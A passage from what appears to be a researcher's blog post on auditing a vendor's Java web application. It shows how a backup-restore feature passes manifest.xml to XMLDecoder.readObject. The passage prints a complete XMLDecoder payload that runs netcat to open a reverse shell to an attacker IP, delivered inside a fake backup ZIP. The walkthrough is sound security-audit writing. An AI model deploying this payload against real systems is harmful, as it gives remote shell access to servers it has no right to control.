 And here we had found it: our **fast RCE**. `XmlDecoder.readObject` is a well-known "friend" for Java code auditors because it allows instant code execution without any restrictions to class paths or so as it is known for other unmarshalling/deserialization flaws.

Since `netcat` with `-e` option came preinstalled on the vendor's virtual machine, this was a quick win.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_292" class="java.beans.XMLDecoder">
<object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="5">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-e</string>
          </void>
          <void index="2">
              <string>/bin/sh</string>
          </void>
          <void index="3">
              <string>192.168.2.100</string> <!-- my attacker machine -->
          </void>
          <void index="4">
              <string>1337</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

Honestly, when I was first browsing through the code to check for how the ZIP file content was processed, I rather thought about an XML External Entity (XXE) flaw but this was even better and a lot easier. Building a fake backup ZIP file with the malicious `manifest.xml` was quickly done and handed over to the restore function to prove the RCE.

# Unprivileged User Attack Surface

Until then, we failed in looking for **unauthenticated endpoints** being vulnerable for anything relevant. *Remark: I did explain above that one should map all the URL patterns against Java Servlets and Filters described in `web.xml` which to this date, I did not. There might be some unseen attack surface!*

But since this blog post is not about the latest and coolest new RCEs but rather giving a walk-through over my whole security audit process, we proceed with the next category: *Searching for vulnerable actions as unprivileged user*.

We begin with a biased trigger of my simple mind by the abbreviation **RPC** (Remote Procedure Call). This usually reminds me of a lot of vulnerabilities in the past. The `web.xml` indeed revealed something similar.
